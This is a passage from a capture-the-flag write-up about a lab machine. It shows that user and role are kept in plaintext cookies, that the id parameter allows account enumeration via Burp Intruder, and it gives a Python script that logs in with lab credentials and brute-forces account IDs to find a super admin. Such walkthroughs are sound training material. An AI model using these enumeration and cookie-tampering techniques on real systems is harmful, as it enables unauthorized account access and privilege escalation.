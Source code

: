 1) `user=34322; expires=Sat, 30-Jan-2021 14:17:15 GMT; Max-Age=2592000; path=/`
2) `role=admin; expires=Sat, 30-Jan-2021 14:17:15 GMT; Max-Age=2592000; path=/`

So apparently, the user- and role-management is done via plaintext cookies. Great idea! (sarcasm off). Perfect chance for us to gain super admin privileges. I quickly realized that the `user=34322` part seemed to be familiar. We have seen that number before on the admin's account info page. It's the Access ID of the admin. 


![uploads](pics/accounts_uri.png)

Going back to the account info page, I realized that there is an `id` parameter in the URL. 1 seems to be the Admin. Can we get information about the super admin user, if we can guess its id? Let's try that.

We have several options for that:

1) Burpsuite Sniper 
2) Hydra
3) Writing a script (requesting the URLs and check the content)

![burpsuite_sniper](pics/burpsuite_sniper.png)

With Burpsuite it's fairly easy to do. Simply intercept the response to the Account info page, send it to the Intruder, select `Sniper` and add the `id` value to the fields that should be bruteforced. After that, simply set the payload to a list of integers (e.g 0-1000).

However, I decided to practice my Python skills and write my own script for that.

```python
import requests
url = "http://10.10.10.28/cdn-cgi/login/admin.php?content=accounts&id="

print("[+] Starting the process")

payload = {
    'username' : 'admin',
    'password' : 'MEGACORP_4dm1n!!'
}

with requests.Session() as s:
    p = s.post('http://10.10.10.28/cdn-cgi/login/index.php', data=payload)
    for x in range(1000):
        print(f"[+] Testing id: {x}")
        test_url = url + str(x)
        res = s.get(test_url)
        if 'super' in res.text:
            print(f"[+] SUPER ADMIN ID FOUND: {x}")
            break

print("[+] Stopping the process")
```
